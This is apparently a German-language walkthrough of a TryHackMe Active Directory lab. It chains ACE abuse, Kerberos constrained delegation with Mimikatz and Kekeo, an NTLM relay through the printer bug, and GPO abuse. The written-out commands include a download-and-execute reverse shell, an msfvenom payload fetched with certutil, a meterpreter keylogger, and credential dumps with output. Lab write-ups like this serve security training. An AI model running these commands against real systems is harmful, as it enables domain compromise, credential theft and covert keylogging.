




# Exploiting ACEs


## ACEs (Access Control Entries) sichern ein Objekt in einem AD ab. Sie legen die Berechtigungen fest, ob auf ein Zielobjekt der Zugriff erlaubt oder abgelehnt werden soll. 


### SSH LOGIN
>ssh irene.leach@thmwrk1.za.tryhackme.loc

### Powershell Spawn
>powershell -nop -exec bypass

### Powerview Module in die Powershell laden
>Import-Module C:\tools\PowerView.ps1

### Sharphound laufen lassen um das gesamte AD zu mappen
>sharphound.exe -c ALL -d za.tryhackme.loc --excludedcs

### Neo4j starten - Programm das Datenbanken grafisch darstellen kann
>sudo neo4j console

### Bloodhound starten - In Verbindung mit Neo4j und Sharphound können wir uns mit Bloodhound jetzt das AD grafisch darstellen lassen
>bloodhound --no-sandbox

### Wir sehen auf dem Bild, dass unser User zur Gruppe Domain User gehört. Domain User hat die ACE "GenericWrite" auf die Gruppe IT Support. Die IT Support Gruppe wiederum kann "ForceChangePassword" auf die Tier 2 Admins ausführen.



### Wir fügen unseren User der Gruppe "IT Support" hinzu
>Add-ADGroupMember -Identity "IT Support" -Members irene.leach

### Nach einigen Minuten (ACEs müssen sich erstmal aktualisieren) können wir den "ForceChangePassword" auf einen Tier 2 Admin ausführen
>$password = ConvertTo-SecureString "password.123" -AsPlainText -Force

>Set-ADAccountPassword -Identity "t2_ross.bird" -Reset -NewPassword $password

## Wir haben Adminzugriff auf THMWRK1


# Constrained Delegation Exploitation


### Mit unserem Adminuser auf THMWRK1 können wir jetzt weitermachen. Wir laden PowerView in die Powershell.
>powershell -nop -exec bypass

>Import-Module C:\tools\PowerView.ps1

### Mit folgendem Befehl können wir uns Informationen zu laufenden Delegations anzeigen lassen.
>Get-NetUser -TrustedToAuth

### Output
---
>- displayname              : IIS Server
>- samaccountname           : svcIIS
>- msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1}

### svcIIS kann also WSMAN und HTTP auf THMSERVER1 delegieren
---

### Wir starten MIMIKATZ

>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

---
#### (Um die secrets aus der Registrierungsstruktur zu dumpen, müssen wir uns als SYSTEM-Benutzer ausgeben)
>token::elevate 

#### (Mimikatz interagiert mit der Registrierungsstruktur, um die Klartext-Anmeldeinformationen abzurufen)
>lsadump::secrets 


### OUTPUT
> Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
---


### Wir werden Kekeo verwenden, um unsere Tickets zu generieren, und dann Mimikatz verwenden, um diese Tickets in den Speicher zu laden. Beginnen wir mit der Generierung der Tickets
>C:\Tools\kekeo\x64\kekeo.exe

### Wir müssen zunächst ein TGT generieren, mit dem Tickets für die HTTP- und WSMAN-Dienste generiert werden können
>tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

### OUTPUT 
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
----
### Da wir nun über das TGT für das Konto verfügen, das die Delegierung durchführen kann, können wir TGS-Anfragen für das Konto fälschen, das wir imitieren möchten. Wir müssen dies sowohl für HTTP als auch für WSMAN durchführen, damit wir eine PSSession auf THMSERVER1 erstellen können
>tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

>tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc

### OUTPUT
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
---

### Da wir nun die beiden TGS-Tickets haben, können wir sie mit Mimikatz importieren
>privilege::debug

>kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

>kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

### Nachdem die Tickets nun importiert sind, können wir endlich unsere PSSession auf THMSERVER1 erstellen

>New-PSSession -ComputerName thmserver1.za.tryhackme.loc

>Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc


## Wir sind Admin auf THMSERVER1


# Exploiting Automated Relays


### Maschinenkonten sind Benutzerkonten, die mit Windows-Hosts verknüpft sind und standardmäßig unknackbare Passwörter haben, während sie in Active Directory für Authentifizierung und Synchronisierung verschiedener Dienste verwendet werden.

### Wir müssen zunächst Fälle identifizieren, in denen ein Maschinenkonto administrativen Zugriff auf eine andere Maschine hat. Bloodhound kann das mit einem custom query

>MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p

### Die Maschine bzw. das Maschinenkonto THMSERVER2 verfügt über Administratorrechte für die Maschine THMSERVER1


## The Printer Bug
### Der Printer Bug ist eine „Funktion“ des MS-RPRN-Protokolls (PrintSystem Remote Protocol), das es einem Domainuser ermöglicht, einen Zielhost, auf dem der Druckspoolerdienst ausgeführt wird, aus der Ferne zu zwingen, sich bei einer beliebigen IP-Adresse zu authentifizieren. 

### Um dies auszunutzen, benötigen wir neben den administrativen Privilegien des Maschinenkontos auch die folgenden vier Bedingungen:

    - Ein gültiges Set von AD-Kontozugangsdaten.
    - Netzwerkverbindung zum SMB-Dienst des Ziels.
    - Der Zielrechner muss den Druckwarteschlangendienst ausführen.
    - Die Rechner dürfen nicht dazu gezwungen sein, SMB-Signierung durchzusetzen.

### Bedingung 1 und 2 sind bereits erfüllt. Die einzigen beiden, die wir benötigen sind die Bedingungen 3 und 4

---

### Wir müssen feststellen, ob der Druckspoolerdienst ausgeführt wird. Da wir keinen Zugriff auf THMSERVER2 haben, müssen wir die Abfrage aus Netzwerkperspektive durchführen. In diesem Fall können wir eine WMI-Abfrage aus unserer SSH-Sitzung auf THMWRK1 verwenden, um den aktuellen Status des Dienstes abzufragen

>GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc


### Beide Befehle geben einen Error aus. In diesem Fall müssen wir einfach ausprobieren und darauf vertrauen, dass auf THMSERVER1 ein Druckerspoolerdienst läuft

---

### Wir überprüfen, ob SMB Signing enabled oder required ist. Legacy Systeme unterstützen kein SMB Signing, daher kommt es vor, dass es nur enabled ist und nicht required.

>nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

#### Wir sehen, dass alle unsere Bedinungen erfüllt sind und wir die Attacke starten können.

---

### Wir starten ein Relay auf unserer Attacker Maschine
>python3 ntlmrelayx.py -smb2support -t smb://10.200.125.201 -debug

### Wenn wir den Hostnamen von THMSERVER1 anstelle der IP angeben, könnte der Host anfordern, dass wir die Kerberos-Authentifizierung anstelle von NTLM verwenden. Daher sollten wir stattdessen die IP angeben. Da das Relay lauscht, können wir THMSERVER2 nun dazu zwingen, sich bei uns zu authentifizieren. Wir führen in einem SSH-Terminal auf THMWRK1 Folgendes aus
>.\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.122.221

### OUTPUT
```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[+] Calculating HashedBootKey from SAM
[+] NewStyle hashes is: True
ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
[+] NewStyle hashes is: True
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92728d5173fc94a54e84f8b457af63a8:::
[+] NewStyle hashes is: True
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e96eab5f240174fe2754efc94f6a53ae:::
[+] NewStyle hashes is: True
trevor.local:1001:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
[*] Done dumping SAM hashes for host: 10.200.125.201
[*] Stopping service RemoteRegistry
```

### Mit den Hashes kam ich jetzt nicht wirklich weiter. Aber da ich Code Execution auf dem THMSERVER1 habe, kann ich eine Reverse Shell triggern.


 1. Download des Rshell Scripts
    >https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

 2. Folgendes am Ende des Scripts einfügen
    >Invoke-PowerShellTcp -Reverse -IPAddress <MEINE IP> -Port 4444

 3. Das Script zum Download bereitstellen
    >python3 -m http.server 80

 4. ntlmrelayx den Befehl mitgeben, dass sobald ich den Druckerspoolerdienst triggere, er folgenden Befehl ausführen soll
      > python3 ntlmrelayx.py -smb2support -t smb://10.200.125.201 -c "powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.50.122.221:80/Invoke-PowerShellTcp.ps1')" -debug
      ---
      >Der Befehl macht folgendes: Powershell wird mit -c aufgerufen, also wird der nachfolgende Befehl als Argument ausgeführt. Der Befehl selbst verwendet "new-object net.webclient" um eine Instanz der .NET Klasse "WebClient" zu erstellen, die dafür genutzt wird, Webanforderungen durchzuführen. In diesem Fall wird der Inhalts einer Datei (invoke-powershelltcp.ps1) heruntergeladen und als Zeichenfolge zurückgegeben.
      ----


 5. Wir starten einen Listener auf Port 4444
      > nc -lvnp 4444

 6. Wir triggern auf THMWRK1 den Druckerspoolerdienst 
    > c:\Tools\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.122.221


## WIR kriegen eine Shell mit NT Authority


# Exploiting AD Users 

### Der schwächste Punkt in einem System ist immernoch der Benutzer. Daher konzentrieren wir uns jetzt darauf, wie User ihre Zugangsdaten speichern und wie Benutzer mit einem System interagieren bzw. Keylogging. In diesem Fall speichert der User seine Zugangsdaten in das Programm "KeePass". Wir laden uns die Datenbank herunter. Nebenbei migrieren wir in einen Prozess des Benutzers und zeichnen seine Benutzereingaben auf.

---

### Wir sehen die *.kdbx Datenbank im Userverzeichnis
```
    Directory: C:\users\trevor.local\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/30/2022   4:36 PM           2190 PasswordDatabase.kdbx
```

### Diese müssen wir irgendwie runterladen. Dazu können wir Meterpreter nutzen. Wir gehen folgendermaßen vor:
   - Wir erstellen mit msfvenom einen Payload
      > msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
   - Wir stellen einen HTTP Server bereit
      > python3 -m http.server 8080
   - Wir laden die Datei auf den Zielhost
      > certutil -urlcache -split -f http://attackerip:8080/shell.ps1
   - Wir starten einen Meterpreter Listener mit Metasploit
      > msfconsole -q -x "use multi/handler; set lhost 10.50.122.221; set lport 5555; set payload windows/x64/meterpreter/reverse_tcp; exploit"
   - Wir führen das Powershell Script "shell.ps1" auf dem Zielhost aus und bekommen eine Meterpretershell
   - Danach wechseln wir in das jeweilige Verzeichnis und laden die Datei herunter
   - Wir suchen jetzt nach Prozessen, die von dem User "trevor.local" ausgeführt werden
      > ps | grep "explorer"
   - Wir migrieren in den Explorer Prozess
      > migrate 3167
   - Anschließend starten in Meterpreter den Keylogger
      > keyscan_start
   - Nach einigen Minuten sollten wir nachschauen ob irgendetwas aufgezeichnet wurde
      > keyscan_dump


      ```
      meterpreter\>keyscan_dump
      Dumping captured keystrokes...
      keep<CR>
      <Shift>Passwordbeispiel<CR>
      ```
   ###  Wir bekommen die Flag als auch neue Credentials aus der Datenbank

---

## Sidequest "SVCSERVMAN IT Support hinzufügen"



Mit unseren neuen Credentials für den User "***svcservman***" sehen wir jetzt zwei Angriffsmöglichkeiten. Ganz kurz zur Erinnerung: Den unteren Angriffsvektor kennen wir bereits. Wir fügen unseren User der IT Support Gruppe hinzu und pwned somit sofort THMSERVER2.

---

## Exploit GPO's

### Wir schauen uns unseren neuen Account mal genauer in Bloodhound an. 



#### Wir haben schreibrechte für eine ganz bestimmtes GPO?! (Group Policy Object). Diese GPO's werden auf Objecte in einem AD angewendet. 



#### GPOs werden mit dem GPM (Group Policy Management) verwaltet. Somit muss man nicht die lokale GPO an jedem Object (Windows Rechner) vor Ort bearbeiten, man macht es zentral und lässt jedes Object die jeweiligen GPOs aus dem SYSVOL ziehen.
#### Wir werden einen AD User den wir kontrollieren (svcservman) den lokalen Administratoren sowie den local Remote Desktop Usern hinzufügen.
#### Somit können wir dann eine RDP Verbindung zu THMSERVER2 aufbauen und haben Adminrechte.

#### Um die GPO zu verändern, müssen wir auf das GPM mit einem User zugreifen, der die entsprechenden Rechte hat. Dazu könnten wir uns natürlich mit dem User auf THMSERVER1 über RDP einloggen, das könnte allerdings den User aus seinem System werden und somit einen Verdacht schöpfen. Daher werden wir uns mit einem anderen User auf THMWRK1 einloggen und von dort aus einen RUNAS befehl ausführen. Wir erinnern uns, mit RUNAS können wir Credentials in unseren Speicher laden und Befehle mit diesem User ausführen. 
##### Wir führen also MMC mit unseren Credentials von SVCSERVMAN aus. 


   - Wir loggen uns per RDP auf THMWRK1 ein

      > xfreerdp /v:thmwrk1.za.tryhackme.loc /u:irene.leach /p:Password1 /cert-ignore

   - Wir starten CMD als Admin

   - Wir führen RUNAS aus und geben das Passwort ein (Sup3Str0ngPass!@)

      > runas /netonly /user:za.tryhackme.loc\svcservman cmd.exe
   
   - Wir testen ob es geklappt hat

      > dir \\\za.tryhackme.loc\sysvol

   - Wir starten mmc

      > mmc

   - Wir adden ein Snap-in über file

   - Wir wählen Group Policy Management und drücken add-ok

   - Rechtsklick und EDIT auf "Management Server Pushes" unter Group Policy Managemnt/Forest: tryhackme.loc/Domains/za.tryhackme.loc/Servers/Management Servers

   - Wir machen einen Rechtsklick auf Computer Configuration/Policies/Windows Settings/Security Settings/Restricted Groups und wähen Add Groups aus

   - Wir klicken auf Browse und geben unter "Enter the object names to select" die Gruppe IT Support ein und drücken auf Check Names und dann ok.

   - In den Properties fügen wir auf gleiche Art noch die Gruppe Administrator und Remote Desktop Users hinzu

   - Nach einigen Minuten (oder einfach gpupdate /force ausführen) hat unser initiale User (wir erinnern uns, wir haben irene.leach zur IT Support Gruppe hinzugefügt) die Möglichkeit, sich über RDP auf THMSERVER2 einzuloggen und besitzt Adminrechte

   ## Wir haben THMSERVER2 gepwned


